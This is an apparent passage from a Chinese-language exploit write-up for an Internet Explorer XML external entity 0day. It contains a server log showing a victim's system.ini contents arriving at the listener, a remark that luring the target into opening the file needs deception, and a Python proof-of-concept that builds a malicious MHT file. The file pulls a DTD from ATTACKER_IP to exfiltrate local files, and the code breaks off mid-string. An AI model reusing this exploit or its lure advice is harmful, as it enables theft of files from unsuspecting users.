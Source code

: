 Serving HTTP on 0.0.0.0 port 8000 ...
127.0.0.1 - - [18/Apr/2019 17:59:50] "GET /datatears.xml HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2019 17:59:51] "GET /?;%20for%2016-bit%20app%20support[386Enh]woafont=dosapp.fonEGA80WOA.FON=EGA80WOA.FONEGA40WOA.FON=EGA40WOA.FONCGA80WOA.FON=CGA80xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxFON[drivers]wave=mmdrv.dlltimer=timer.drv[mci] HTTP/1.1" 200 -   

成功获取，目标机相关信息，不过在诱导下载和启动上，需要一定的迷惑技巧

生成利用文件的poc如下：

```python 
#Microsoft Internet Explorer XXE 0day
#Creates malicious XXE .MHT and XML files
#Open the MHT file in MSIE locally, should exfil system.ini
#By hyp3rlinx
#ApparitionSec

ATTACKER_IP="localhost"
PORT="8000"

mht_file=(
'From:\n'
'Subject:\n'
'Date:\n'
'MIME-Version: 1.0\n'
'Content-Type: multipart/related; type="text/html";\n'
'\tboundary="=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001"\n'
'This is a multi-part message in MIME format.\n\n\n'

'--=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001\n'
'Content-Type: text/html; charset="UTF-8"\n'
'Content-Location: main.htm\n\n'

'<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/transitional.dtd">\n'
'<html>\n'
'<head>\n'
'<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />\n'
'<title>MSIE XXE 0day</title>\n'
'</head>\n'
'<body>\n'
'<xml>\n'
'<?xml version="1.0" encoding="utf-8"?>\n'
'<!DOCTYPE r [\n'
'<!ELEMENT r ANY >\n'
'<!ENTITY % sp SYSTEM "http://'+str(ATTACKER_IP)+":"+PORT+'/datatears.xml">\n'
'%sp;\n'
'%param1;\n'
']>\n'
'<r>&exfil;</r>\n'
'<r>&exfil;</r>\n'
'<r>&exfil;</r>\n'
'<r>&exfil;</r>\n'
'</xml>\n'
'<script>window.print();</script>\n'
'<table cellpadding="0" cellspacing="0" border="0">\n'
'<tr>\n'
'<td class="contentcell-width">\n'
'<h1>MSIE XML External Entity 0day PoC.</h1>\n'
'<h3>Discovery: hyp3rlinx</h3>\n'
'<h3>ApparitionSec</h3>\n'
'</td>\n'
'</tr>\n'
'</table>\n'
'</body>\n'
```